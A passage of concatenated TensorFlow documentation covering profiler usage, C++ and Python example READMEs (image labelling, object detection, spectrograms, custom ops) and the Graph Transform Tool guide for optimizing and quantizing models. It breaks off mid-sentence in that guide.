  seq2seq_attention.py'>:168:run_filename_from...:none (0B/74148.60MB)
    seq2seq_attention.py'>:33:_run_code_in_main:none (0B/74148.60MB)
      seq2seq_attention.py:316:<module>:app.run() (0B/74148.60MB)
        app.py:432:run:_run_main(main or... (0B/74148.60MB)
          app.py:352:_run_main:sys.exit(main(arg... (0B/74148.60MB)
            seq2seq_attention.py:270:main:_Train(model, bat... (0B/74148.60MB)
              seq2seq_attention.py:128:_Train:model.build_graph() (0B/74148.60MB)
                seq2seq_attention_model.py:363:build_graph:self._add_train_o... (0B/48931.86MB)
                  seq2seq_attention_model.py:307:_add_train_op:tf.gradients(self... (0B/46761.06MB)
                  seq2seq_attention_model.py:322:_add_train_op:zip(grads, tvars)... (0B/2170.80MB)
                  seq2seq_attention_model.py:312:_add_train_op:tf.train.exponent... (0B/2.56KB)
                  seq2seq_attention_model.py:308:_add_train_op:tf.summary.scalar... (0B/64B)
                  seq2seq_attention_model.py:320:_add_train_op:tf.summary.scalar... (0B/64B)
                seq2seq_attention_model.py:360:build_graph:self._add_seq2seq() (0B/25216.74MB)
                  seq2seq_attention_model.py:192:_add_seq2seq:sequence_length=a... (0B/21542.55MB)
```
## Python API Tutorials

* [Parameters and Shapes](#parameters-and-shapes)
* [Float Operations](#float-operations)
* [Time and Memory](#time-and-memory)
* [Visualize](#visualize)
* [Multi-step Profiling](#multi-step-profiling)

```import tensorflow as tf```.

### Parameters and Shapes.
```python
# Print trainable variable parameter statistics to stdout.
ProfileOptionBuilder = tf.profiler.ProfileOptionBuilder

param_stats = tf.profiler.profile(
    tf.get_default_graph(),
    options=ProfileOptionBuilder.trainable_variables_parameter())

# Use code view to associate statistics with Python codes.
opts = ProfileOptionBuilder(
    ProfileOptionBuilder.trainable_variables_parameter()
    ).with_node_names(show_name_regexes=['.*my_code1.py.*', '.*my_code2.py.*']
    ).build()
param_stats = tf.profiler.profile(
    tf.get_default_graph(),
    cmd='code',
    options=opts)

# param_stats can be tensorflow.tfprof.GraphNodeProto or
# tensorflow.tfprof.MultiGraphNodeProto, depending on the view.
# Let's print the root below.
sys.stdout.write('total_params: %d\n' % param_stats.total_parameters)
```

### Float Operations

#### Note: See [Caveats](profile_model_architecture.md#caveats) in "Profile Model Architecture" Tutorial
``` python
# Print to stdout an analysis of the number of floating point operations in the
# model broken down by individual operations.
tf.profiler.profile(
    tf.get_default_graph(),
    options=tf.profiler.ProfileOptionBuilder.float_operation())
```

### Time and Memory
You will first need to run the following set up in your model in order to
compute the memory and timing statistics.

```python
# Generate the RunMetadata that contains the memory and timing information.
#
# Note: When run on accelerator (e.g. GPU), an operation might perform some
#       cpu computation, enqueue the accelerator computation. The accelerator
#       computation is then run asynchronously. The profiler considers 3
#       times: 1) accelerator computation. 2) cpu computation (might wait on
#       accelerator). 3) the sum of 1 and 2.
#
run_metadata = tf.RunMetadata()
with tf.Session() as sess:
  _ = sess.run(train_op,
               options=tf.RunOptions(trace_level=tf.RunOptions.FULL_TRACE),
               run_metadata=run_metadata)
```

Finally, you may run `tf.profiler.profile` to explore the timing and memory
information of the model.

``` python
# Print to stdout an analysis of the memory usage and the timing information
# broken down by python codes.
ProfileOptionBuilder = tf.profiler.ProfileOptionBuilder
opts = ProfileOptionBuilder(ProfileOptionBuilder.time_and_memory()
    ).with_node_names(show_name_regexes=['.*my_code.py.*']).build()

tf.profiler.profile(
    tf.get_default_graph(),
    run_meta=run_metadata,
    cmd='code',
    options=opts)

# Print to stdout an analysis of the memory usage and the timing information
# broken down by operation types.
tf.profiler.profile(
    tf.get_default_graph(),
    run_meta=run_metadata,
    cmd='op',
    options=tf.profiler.ProfileOptionBuilder.time_and_memory())
```

### Visualize

```
To visualize the result of Python API results:
Call `with_step(0).with_timeline_output(filename)` to generate a timeline json file.
Open a Chrome Browser, type URL `chrome://tracing`, and load the json file.
```

Below are 2 examples of graph view and scope view.

<left>


</left>

### Multi-step Profiling

tfprof allows you to profile statistics across multiple steps.

```python
opts = model_analyzer.PRINT_ALL_TIMING_MEMORY.copy()
opts['account_type_regexes'] = ['.*']

with session.Session() as sess:
  r1, r2, r3 = lib.BuildSplittableModel()
  sess.run(variables.global_variables_initializer())

  # Create a profiler.
  profiler = model_analyzer.Profiler(sess.graph)
  # Profile without RunMetadata of any step.
  pb0 = profiler.profile_name_scope(opts)

  run_meta = config_pb2.RunMetadata()
  _ = sess.run(r1,
               options=config_pb2.RunOptions(
                   trace_level=config_pb2.RunOptions.FULL_TRACE),
               run_metadata=run_meta)

  # Add run_meta of step 1.
  profiler.add_step(1, run_meta)
  pb1 = profiler.profile_name_scope(opts)

  run_meta2 = config_pb2.RunMetadata()
  _ = sess.run(r2,
               options=config_pb2.RunOptions(
                   trace_level=config_pb2.RunOptions.FULL_TRACE),
               run_metadata=run_meta2)
  # Add run_meta of step 2.
  profiler.add_step(2, run_meta2)
  pb2 = profiler.profile_name_scope(opts)

  run_meta3 = config_pb2.RunMetadata()
  _ = sess.run(r3,
               options=config_pb2.RunOptions(
                   trace_level=config_pb2.RunOptions.FULL_TRACE),
               run_metadata=run_meta3)
  # Add run_meta of step 3.
  profiler.add_step(3, run_meta3)
  pb3 = profiler.profile_name_scope(opts)
```
# TensorFlow C++ Examples

This directory contains examples of the TensorFlow C++ API (and some redirects).
If that's not what you're looking for here are some links:

*   For TensorFlow python examples see
    [the tutorials on tensorflow.org](https://tensorflow.org/tutorials)
*   For community maintained keras examples goto
    [keras.io/examples](https://keras.io/examples/)
*   For TensorFlow Lite examples see
    [the tensorflow/examples repository](https://github.com/tensorflow/examples/tree/master/lite)
*   For the Udacity course notebooks, refer to
    [this directory](https://github.com/tensorflow/examples/tree/master/courses)

## About these examples

*   The C++ API is only easily buildable from within the TensorFlow `bazel`
    build. If you need a stand alone build
    [see the C API](https://www.tensorflow.org/install/lang_c).
*   This directory is not actively maintained.
**NOTE: This code has moved to**
https://github.com/tensorflow/hub/tree/master/examples/image_retraining

retrain.py is an example script that shows how one can adapt a pretrained
network for other classification problems (including use with TFLite and
quantization).

As of TensorFlow 1.7, it is recommended to use a pretrained network from
TensorFlow Hub, using the new version of this example found in the location
above, as explained in TensorFlow's revised [image retraining
tutorial](https://www.tensorflow.org/tutorials/image_retraining).

Older versions of this example (using frozen GraphDefs instead of
TensorFlow Hub modules) are available in the release branches of
TensorFlow versions up to and including 1.7.
This is the code as described in https://tensorflow.org/guide/create_op.
See `../custom_ops_doc` for more examples.
# TensorFlow C++ and Python Image Recognition Demo

This example shows how you can load a pre-trained TensorFlow network and use it
to recognize objects in images in C++. For Java see the [Java
README](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/java),
and for Go see the [godoc
example](https://godoc.org/github.com/tensorflow/tensorflow/tensorflow/go#ex-package).

## Description

This demo uses a Google Inception model to classify image files that are passed
in on the command line.

## To build/install/run

The TensorFlow `GraphDef` that contains the model definition and weights is not
packaged in the repo because of its size. Instead, you must first download the
file to the `data` directory in the source tree:

```bash
$ curl -L "https://storage.googleapis.com/download.tensorflow.org/models/inception_v3_2016_08_28_frozen.pb.tar.gz" |
  tar -C tensorflow/examples/label_image/data -xz
```

Then, as long as you've managed to build the main TensorFlow framework, you
should have everything you need to run this example installed already.

Once extracted, see the labels file in the data directory for the possible
classifications, which are the 1,000 categories used in the Imagenet
competition.

To build it, run this command:

```bash
$ bazel build tensorflow/examples/label_image/...
```

That should build a binary executable that you can then run like this:

```bash
$ bazel-bin/tensorflow/examples/label_image/label_image
```

This uses the default example image that ships with the framework, and should
output something similar to this:

```
I tensorflow/examples/label_image/main.cc:206] military uniform (653): 0.834306
I tensorflow/examples/label_image/main.cc:206] mortarboard (668): 0.0218692
I tensorflow/examples/label_image/main.cc:206] academic gown (401): 0.0103579
I tensorflow/examples/label_image/main.cc:206] pickelhaube (716): 0.00800814
I tensorflow/examples/label_image/main.cc:206] bulletproof vest (466): 0.00535088
```

In this case, we're using the default image of Admiral Grace Hopper, and you can
see the network correctly spots she's wearing a military uniform, with a high
score of 0.8.

Next, try it out on your own images by supplying the --image= argument, e.g.

```bash
$ bazel-bin/tensorflow/examples/label_image/label_image --image=my_image.png
```

For a more detailed look at this code, you can check out the C++ section of the
[Inception tutorial](https://www.tensorflow.org/tutorials/image_recognition/).

## Python implementation

label_image.py is a python implementation that provides code corresponding
to the C++ code here. This gives more intuitive mapping between C++ and
Python than the Python code mentioned in the
[Inception tutorial](https://www.tensorflow.org/tutorials/image_recognition/).
and could be easier to add visualization or debug code.


`bazel-bin/tensorflow/examples/label_image/label_image_py` should be there after
```bash
$ bazel build tensorflow/examples/label_image/...
```

Run

```bash
$ bazel-bin/tensorflow/examples/label_image/label_image_py
```

Or, with tensorflow python package installed, you can run it like:
```bash
$ python3 tensorflow/examples/label_image/label_image.py
```

And get result similar to this:
```
military uniform 0.834305
mortarboard 0.0218694
academic gown 0.0103581
pickelhaube 0.00800818
bulletproof vest 0.0053509
```
# Speech Commands Example

This is a basic speech recognition example. For more information, see the
tutorial at https://www.tensorflow.org/tutorials/audio/simple_audio.
# Custom Ops Examples

The following subdirectories have examples of Custom Ops.

* multiplex_1: starting example, similar to np.where
* multiplex_2: GPU (and CPU) example, similar to np.where
* multiplex_3: dispatch to special case kernel (and sparse tensors)
* multiplex_4: C++ backward compatibility example: lists of tensors
* simple_hash_table: internal state using a Resource using ref-counting
* sleep: Asynchronous (non-blocking) sleep op using AsyncOpKernel
# TensorFlow C++ MultiBox Object Detection Demo

This example shows how you can load a pre-trained TensorFlow network and use it
to detect objects in images in C++. For an alternate implementation see the
[Android TensorFlow demo](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android)

## Description

This demo uses a model based on [Scalable Object Detection using Deep NeuralNetworks](https://arxiv.org/abs/1312.2249) to detect people in images passed in from
the command line. This is the same model also used in the Android TensorFlow
demo for real-time person detection and tracking in the camera preview.

## To build/install/run

The TensorFlow `GraphDef` that contains the model definition and weights is not
packaged in the repo because of its size. Instead, you must first download the
file to the `data` directory in the source tree:

```bash
$ wget https://storage.googleapis.com/download.tensorflow.org/models/mobile_multibox_v1a.zip -O tensorflow/examples/multibox_detector/data/mobile_multibox_v1a.zip

$ unzip tensorflow/examples/multibox_detector/data/mobile_multibox_v1a.zip -d tensorflow/examples/multibox_detector/data/
```

Then, as long as you've managed to build the main TensorFlow framework, you
should have everything you need to run this example installed already.

Once extracted, see the box priors file in the data directory. This file
contains means and standard deviations for all 784 possible detections,
normalized from 0-1 in left top right bottom order.

To build it, run this command:

```bash
$ bazel build --config opt tensorflow/examples/multibox_detector/...
```

That should build a binary executable that you can then run like this:

```bash
$ bazel-bin/tensorflow/examples/multibox_detector/detect_objects --image_out=$HOME/x20/surfers_labeled.png
```

This uses the default example image that ships with the framework, and should
output something similar to this:

```
I0125 18:24:13.804047    8677 main.cc:293] ===== Top 5 Detections ======
I0125 18:24:13.804058    8677 main.cc:307] Detection 0: L:324.542 T:76.5764 R:373.26 B:214.957 (635) score: 0.267425
I0125 18:24:13.804077    8677 main.cc:307] Detection 1: L:332.896 T:76.2751 R:372.116 B:204.614 (523) score: 0.245334
I0125 18:24:13.804087    8677 main.cc:307] Detection 2: L:306.605 T:76.2228 R:371.356 B:217.32 (634) score: 0.216121
I0125 18:24:13.804096    8677 main.cc:307] Detection 3: L:143.918 T:86.0909 R:187.333 B:195.885 (387) score: 0.171368
I0125 18:24:13.804104    8677 main.cc:307] Detection 4: L:144.915 T:86.2675 R:185.243 B:165.246 (219) score: 0.169244
```

In this case, we're using a public domain stock image of surfers walking on the
beach, and the top two few detections are of the two on the right. Adding more
detections with --num_detections=N will also include the surfer on the left,
and eventually non-person boxes below a certain threshold.

You can visually inspect the detections by viewing the resulting png file
'~/surfers_labeled.png'.

Next, try it out on your own images by supplying the --image= argument, e.g.

```bash
$ bazel-bin/tensorflow/examples/multibox_detector/detect_objects --image=my_image.png
```

For another implementation of this work, you can check out the [Android
TensorFlow demo](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/examples/android).

The contents of this folder have been moved to:

[https://github.com/tensorflow/examples/tree/master/courses/udacity_deep_learning](https://github.com/tensorflow/examples/tree/master/courses/udacity_deep_learning)

# TensorFlow Spectrogram Example

This example shows how you can load audio from a .wav file, convert it to a
spectrogram, and then save it out as a PNG image. A spectrogram is a
visualization of the frequencies in sound over time, and can be useful as a
feature for neural network recognition on noise or speech.

## Building

To build it, run this command:

```bash
bazel build tensorflow/examples/wav_to_spectrogram/...
```

That should build a binary executable that you can then run like this:

```bash
bazel-bin/tensorflow/examples/wav_to_spectrogram/wav_to_spectrogram
```

This uses a default test audio file that's part of the TensorFlow source code,
and writes out the image to the current directory as spectrogram.png.

## Options

To load your own audio, you need to supply a .wav file in LIN16 format, and use
the `--input_audio` flag to pass in the path.

To control how the spectrogram is created, you can specify the `--window_size`
and `--stride` arguments, which control how wide the window used to estimate
frequencies is, and how widely adjacent windows are spaced.

The `--output_image` flag sets the path to save the image file to. This is
always written out in PNG format, even if you specify a different file
extension.

If your result seems too dark, try using the `--brightness` flag to make the
output image easier to see.

Here's an example of how to use all of them together:

```bash
bazel-bin/tensorflow/examples/wav_to_spectrogram/wav_to_spectrogram \
--input_wav=/tmp/my_audio.wav \
--window=1024 \
--stride=512 \
--output_image=/tmp/my_spectrogram.png
```
# Graph Transform Tool

## Table of Contents

*   [Introduction](#introduction)
*   [Using the Graph Transform Tool](#using-the-graph-transform-tool)
*   [Inspecting Graphs](#inspecting-graphs)
*   [Common Use Cases](#common-use-cases)
    *   [Optimizing for Deployment](#optimizing-for-deployment)
    *   [Fixing Missing Kernel Errors on
        Mobile](#fixing-missing-kernel-errors-on-mobile)
    *   [Shrinking File Size](#shrinking-file-size)
    *   [Eight-bit Calculations](#eight-bit-calculations)
*   [Transform Reference](#transform-reference)
    *   [add_default_attributes](#add_default_attributes)
    *   [backport_concatv2](#backport_concatv2)
    *   [flatten_atrous_conv](#flatten_atrous_conv)
    *   [fold_batch_norms](#fold_batch_norms)
    *   [fold_constants](#fold_constants)
    *   [fold_old_batch_norms](#fold_old_batch_norms)
    *   [freeze_requantization_ranges](#freeze_requantization_ranges)
    *   [fuse_convolutions](#fuse_convolutions)
    *   [insert_logging](#insert_logging)
    *   [merge_duplicate_nodes](#merge_duplicate_nodes)
    *   [obfuscate_names](#obfuscate_names)
    *   [quantize_nodes](#quantize_nodes)
    *   [quantize_weights](#quantize_weights)
    *   [remove_attribute](#remove_attribute)
    *   [remove_device](#remove_device)
    *   [remove_nodes](#remove_nodes)
    *   [rename_attribute](#rename_attribute)
    *   [rename_op](#rename_op)
    *   [round_weights](#round_weights)
    *   [sparsify_gather](#sparsify_gather)
    *   [set_device](#set_device)
    *   [sort_by_execution_order](#sort_by_execution_order)
    *   [strip_unused_nodes](#strip_unused_nodes)
*   [Writing Your Own Transforms](#writing-your-own-transforms)
    *   [Transform Functions](#transform-functions)
    *   [Pattern Syntax](#pattern-syntax)
    *   [ReplaceMatchingOpTypes](#replacematchingoptypes)
    *   [Parameters](#parameters)
    *   [Function Libraries](#function-libraries)
    *   [Registering](#registering)

## Introduction

When you have finished training a model and want to deploy it in production,
you'll often want to modify it to better run in its final environment. For
example if you're targeting a phone you might want to shrink the file size by
quantizing the weights, or optimize away batch normalization or other
training-only features. The Graph Transform framework offers a suite of tools
for modifying computational graphs, and a framework to make it easy to write
your own modifications.

This guide is structured into three main parts, first giving some tutorials on
how to perform common tasks, second a reference covering all of the different
transformations that are included, together with the options that apply to them,
and third a guide to creating your own transforms.

## Using the Graph Transform Tool

The Graph Transform tool is designed to work on models that are saved as
GraphDef files, usually in a binary protobuf format. This is the low-level
definition of a TensorFlow computational graph, including a list of nodes and
the input and output connections between them. If you're using a Python API to
train your model, this will usually be saved out in the same directory as your
checkpoints, and usually has a '.pb' suffix.

If you want to work with the values of your trained parameters, for example to
quantize weights, you'll need to run
[tensorflow/python/tools/freeze_graph.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/freeze_graph.py)
to convert the checkpoint values into embedded constants within the graph file
itself.

You call the Graph Transform tool itself like this:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul:0' \
--outputs='softmax:0' \
--transforms='
strip_unused_nodes(type=float, shape="1,299,299,3")
remove_nodes(op=Identity, op=CheckNumerics)
fold_old_batch_norms
'
```

The arguments here are specifying where to read the graph from, where to write
the transformed version to, what the input and output layers are, and what
transforms to modify the graph with. The transforms are given as a list of
names, and can each have arguments themselves. These transforms define the
pipeline of modifications that are applied in order to produce the output.
Sometimes you need some transforms to happen before others, and the ordering
within the list lets you specify which happen first.
Note that the optimization
`remove_nodes(op=Identity, op=CheckNumerics)` will break the model with control
flow operations, such as `tf.cond`, `tf.map_fn`, and `tf.while`.

## Inspecting Graphs

Many of the transforms that the tool supports need to know what the input and
output layers of the model are. The best source for these is the model training
process, where for a classifier the inputs will be the nodes that receive the
data from the training set, and the output will be the predictions. If you're
unsure, the
[`summarize_graph`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/graph_transforms/summarize_graph_main.cc)
tool can inspect the model and provide guesses about likely input and output nodes,
as well as other information that's useful for debugging. Here's an example of
how to use it on the [Inception V3
graph](https://storage.googleapis.com/download.tensorflow.org/models/image/imagenet/inception-2015-12-05.tgz):

```bash
bazel build tensorflow/tools/graph_transforms:summarize_graph
bazel-bin/tensorflow/tools/graph_transforms/summarize_graph --in_graph=tensorflow_inception_graph.pb
```

## Common Use Cases

This section has small guides for some of the most frequently-used
transformation pipelines, aimed at users who want to quickly accomplish one of
these tasks. A lot of them will use the Inception V3 model for their examples,
which can be downloaded from
[https://storage.googleapis.com/download.tensorflow.org/models/image/imagenet/inception-2015-12-05.tgz](https://storage.googleapis.com/download.tensorflow.org/models/image/imagenet/inception-2015-12-05.tgz).

### Optimizing for Deployment

If you've finished training your model and want to deploy it on a server or a
mobile device, you'll want it to run as fast as possible, and with as few
non-essential dependencies as you can. This recipe removes all of the nodes that
aren't called during inference, shrinks expressions that are always constant
into single nodes, and optimizes away some multiply operations used during batch
normalization by pre-multiplying the weights for convolutions.

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul' \
--outputs='softmax' \
--transforms='
  strip_unused_nodes(type=float, shape="1,299,299,3")
  remove_nodes(op=Identity, op=CheckNumerics)
  fold_constants(ignore_errors=true)
  fold_batch_norms
  fold_old_batch_norms'
```

The batch norm folding is included twice because there are two different flavors
of batch normalization used in TensorFlow. The older version was implemented
with a single op like BatchNormWithGlobalNormalization or FusedBatchNorm, and
BatchNormWithGlobalNormalization was deprecated in favor of a more recent
approach using individual ops to implement the same computation. The two
transforms are in there so that both styles are recognized and optimized.

### Fixing Missing Kernel Errors on Mobile

The mobile version of TensorFlow is focused on inference, and so by default the
list of supported ops (defined in
[tensorflow/core/kernels/BUILD:android_extended_ops](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/BUILD)
for Bazel doesn't include a lot that are training related. This can cause
`No OpKernel was registered to support Op` errors when a GraphDef is loaded,
even if the op isn't going to be executed.

If you see this error and it's an op that you do actually want to run on mobile,
then you'll need to make local modifications to the build files to include the
right .cc file that defines it. In a lot of cases the op is just a vestigial
remnant from the training process though, and if that's true then you can run
the [strip_unused_nodes](#strip_unused_nodes), specifying the inputs and outputs
of your inference usage, to remove those unnecessary nodes:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul' \
--outputs='softmax' \
--transforms='
  strip_unused_nodes(type=float, shape="1,299,299,3")
  fold_constants(ignore_errors=true)
  fold_batch_norms
  fold_old_batch_norms'
```

### Shrinking File Size

If you're looking to deploy your model as part of a mobile app, then keeping the
download size as small as possible is important. For most TensorFlow models, the
largest contributors to the file size are the weights passed in to convolutional
and fully-connected layers, so anything that can reduce the storage size for
those is very useful. Luckily most neural networks are resistant to noise, so
it's possible to change the representation of those weights in a lossy way
without losing very much accuracy overall.

On both iOS and Android app packages are compressed before download, so the
simplest way to reduce the bandwidth your users need to receive your app is to
provide raw data that compresses more easily. By default the weights are stored
as floating-point values, and even tiny differences between numbers result in
very different bit patterns, and so these don't compress very well. If you round
the weights so that nearby numbers are stored as exactly the same values, the
resulting bit stream has a lot more repetition and so compresses down a lot more
effectively. To try this technique on your model, run the
[round_weights](#round_weights) transform.

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul' \
--outputs='softmax' \
--transforms='
  strip_unused_nodes(type=float, shape="1,299,299,3")
  fold_constants(ignore_errors=true)
  fold_batch_norms
  fold_old_batch_norms
  round_weights(num_steps=256)'
```

You should see that the `optimized_inception_graph.pb` output file is the same
size as the input, but if you run zip on it to compress it, it's almost 70%
smaller than if you zip the original! The nice thing about this transform is
that it doesn't change the structure of the graph at all, so it's running
exactly the same operations and should have the same latency and memory usage as
before. You can adjust the `num_steps` parameter to control how many values each
weight buffer is rounded to, so lower numbers will increase the compression at
the cost of accuracy.

As a further step, you can store the weights into eight-bit values directly.
Here's the recipe for that:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul' \
--outputs='softmax' \
--transforms='
  strip_unused_nodes(type=float, shape="1,299,299,3")
  fold_constants(ignore_errors=true)
  fold_batch_norms
  fold_old_batch_norms
  quantize_weights'
```

You should see that the size of the output graph is about a quarter of the
original. The downside to this approach compared to round_weights is that extra
decompression ops are inserted to convert the eight-bit values back into
floating point, but optimizations in TensorFlow's runtime should ensure these
results are cached and so you shouldn't see the graph run any more slowly.

So far we've been concentrating on weights because those generally take up the
most space. If you have a graph with a lot of small nodes in it, the names of
those nodes can start to take up a noticeable amount of space too. To shrink
those down, you can run the [obfuscate_names](#obfuscate_names) transform, which
replaces all the names (except for inputs and outputs) with short, cryptic but
unique ids:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul:0' \
--outputs='softmax:0' \
--transforms='
  obfuscate_names'
```

### Eight-bit Calculations

For some platforms it's very helpful to be able to do as many calculations as
possible in eight-bit, rather than floating-point. The support for this in
TensorFlow is still experimental and evolving, but you can convert models into
quantized form using the graph transform tool:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=tensorflow_inception_graph.pb \
--out_graph=optimized_inception_graph.pb \
--inputs='Mul' \
--outputs='softmax' \
--transforms='
  add_default_attributes
  strip_unused_nodes(type=float, shape="1,299,299,3")
  remove_nodes(op=Identity, op=CheckNumerics)
  fold_constants(ignore_errors=true)
  fold_batch_norms
  fold_old_batch_norms
  quantize_weights
  quantize_nodes
  strip_unused_nodes
  sort_by_execution_order'
```

This process converts all the operations in the graph that have eight-bit
quantized equivalents, and leaves the rest in floating point. Only a subset of
ops are supported, and on many platforms the quantized code may actually be
slower than the float equivalents, but this is a way of increasing performance
substantially when all the circumstances are right.

A full guide to optimizing for quantization is beyond the scope of this guide,
but one thing that can help is using the FakeQuantWithMinMaxVars op after Conv2D
or similar operations during training. This trains the min/max variables that
control the range used for quantization, so that the range doesn't have to be
calculated dynamically by RequantizationRange during inference.

## Transform Reference

The --transforms string is parsed as a series of transform names, each of which
can have multiple named arguments inside parentheses. Arguments are separated by
commas, and double-quotes (") can be used to hold argument values if they
themselves contain commas (for example shape definitions).

The --inputs and --outputs are shared across all transforms, since it's common
to need to know what the ingoing and outgoing nodes in the graph are. You should
make sure you set these correctly before calling the graph transform tool, and
if you're in doubt check with the model's author, or use the [`summarize_graph`](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/graph_transforms#inspecting-graphs) tool
to examine likely inputs and outputs.

All transforms can be passed the `ignore_errors` flag, with the value set to
either true or false. By default any errors that happen within a transform will
abort the whole process, but if you enable this then an error will just be
logged and the transform skipped. This is especially useful for optional
transforms where version errors or other unimportant problems may trigger an
error.

### add_default_attributes

Args: None

When attributes are added to ops in new versions of TensorFlow, they often have
defaults to ensure backwards compatible behavior with their original versions.
These defaults usually get added when the graph is loaded by the runtime, but if
your model is going to be processed outside of the main TensorFlow framework it
can be useful to run this update process as a transform. This process finds any
op attributes that are defined in the current TensorFlow list of ops but not
within the saved model, and sets them to the defined default for that attribute.

### backport_concatv2

Args: None

If you have a GraphDef file that has been produced by a newer version of the
TensorFlow framework and includes ConcatV2, and you want to run it on an older
version that only supports Concat, this transform will take care of converting
those newer ops to the equivalent older form.

### flatten_atrous_conv

Args: None \
Prerequisites: [fold_constants](#fold_constants)

This transform flattens atrous convolution, corresponding to a sequence of
SpaceToBatchND-Conv2D-BatchToSpaceND operations, converting it to a regular
Conv2D op with upsampled filters. This transforms should only be used in order
to run graphs having atrous convolution on platforms that do not yet natively
support SpaceToBatchND and BatchToSpaceND operations. You will need to make
sure you run [fold_constants](#fold_constants) after this transform. If
applicable, you should run this transform before
[fold_batch_norms](#fold_batch_norms).

### fold_batch_norms

Args: None \
Prerequisites: [fold_constants](#fold_constants)

This transform tries to optimize away the Mul that's introduced after a Conv2D
(or a MatMul) when batch normalization has been used during training. It scans
the graph for any channel-wise multiplies immediately after convolutions, and
multiplies the convolution's (or matrix multiplication's) weights with the Mul
instead so this can be omitted at inference time. You'll need to make sure you
run [fold_constants](#fold_constants) first, since the pattern can only be
spotted if the normal complex expression that's produced by training for the Mul
input is collapsed down into a simple constant.

### fold_constants

Args:

*   clear_output_shapes: Clears tensor shape information saved as attributes.
    Some older graphs contains out-of-date information and may cause import
    errors. Defaults to true.

Prerequisites: None

Looks for any sub-graphs within the model that always evaluate to constant
expressions, and replaces them with those constants. This optimization is always
executed at run-time after the graph is loaded, so running it offline first
won't help latency, but it can simplify the graph and so make further processing
easier. It's often useful to call this with `fold_constants(ignore_errors=true)`
to continue on past transient errors, since this is just an optimization phase.

### fold_old_batch_norms

Args: None \
Prerequisites: None

In the early days of TensorFlow, batch normalization was implemented using
single monolithic ops like `BatchNormWithGlobalNormalization` or
`FusedBatchNorm`. In modern versions, adding batch normalization from Python
will give you a series of smaller math ops instead, to achieve the same effect
without special-purpose code. If you have a graph that uses the older-style,
this transform will recognize and optimize those ops for inference, in the same
way that the [fold_batch_norms](#fold_batch_norms) transform does for the new
approach.

### freeze_requantization_ranges

Args:

*   min_max_log_file: Path to a log file containing ranges for ops.
*   min_percentile: Percentage cutoff to use to calculate an overall min.
    Defaults to 5.
*   max_percentile: Percentage cutoff to use to calculate an overall max.
    Defaults to 5.

Quantized operations like convolution or matrix multiplies take their inputs as
8-bit, but produce 32-bit results. To do further operations on these, they need
to be converted back down to the lower depth. To make the most of those eight
bits, you need to scale the thirty-two bits of original data down using a scale
that matches the range that's actually being used.

Because that range information isn't stored in the original graph, the
[quantization process](#eight-bit-calculations) inserts RequantizationRange ops
before each conversion from 32 to 8 bits. This op looks at the 32-bit output and
calculates the current min and max every time it's run.

This isn't incredibly time-consuming, but it is extra work that's nice to avoid
if possible. One way of optimizing that away is replacing those
RequantizationRange ops with a pair of Const nodes holding known min/max values,
so the scaling down can be done without having to inspect the output every time.

That's what this transform does. It's usually used in conjunction with a copy of
the graph that's had [insert_logging](#insert_logging) run on it to instrument
it to record the min/max values to stderr. Why is logging used rather than
writing to a normal file? As you'll see later, to get best results you want to
collect data from a lot of runs on real data, and for mobile apps especially
it's a lot easier to do this by copying log files. As an example, here's how
you'd add the logging operations for a quantized version of the Inception v3
graph:

```bash
bazel build tensorflow/tools/graph_transforms:transform_graph
bazel-bin/tensorflow/tools/graph_transforms/transform_graph \
--in_graph=/tmp/quantized_inception.pb \
--out_graph=/tmp/logged_quantized_inception.pb \
--inputs=Mul \
--outputs=softmax \
--transforms='
insert_logging(op=RequantizationRange, show_name=true, message="__requant_min_max:")\
'
```

Now, when you run the `/tmp/logged_quantized_inception.pb` graph, it will write
out log statements that show the value of the min and max calculated by each
RequantizationRange op. Here's an example of running label_image and saving the
log:

```bash
bazel build tensorflow/examples/label_image:label_image
bazel-bin/tensorflow/examples/label_image/label_image \
--image=${HOME}/Downloads/grace_hopper.jpg \
--input_layer=Mul \
--output_layer=softmax \
--graph=/tmp/logged_quantized_inception.pb \
--labels=${HOME}/Downloads/imagenet_comp_graph_label_strings.txt \
2>/tmp/min_max_log_small.txt
```

If you look in `/tmp/min_max_log_small.txt`, you'll see a lot of lines like
this:

```
I0108 21:45:42.261883    1972 logging_ops.cc:79] ;conv/Conv2D/eightbit/requant_range__print__;__requant_min_max:[-20.887871][22.274715]
```

This is a simple way of serializing the name of the RequantizationRange op and
its min/max values every time it's run. It's a file like this that you pass into
the transform as the `min_max_log_file` argument. The transform will attempt to
extract all of the min/max values associated with ops, ignoring any irrelevant
lines in the log, and replace the RequantizationRange ops with two Const nodes
containing the found values.

This isn't the whole story though. The min/max values can vary a lot depending
on what the particular inputs to the graph are on any given run, which means
picking ranges based on just one run can lead to clipping of values and a loss
of accuracy. To get better results, you need to run your network against a range
of different inputs. In Inception's case, I often use a thousand different
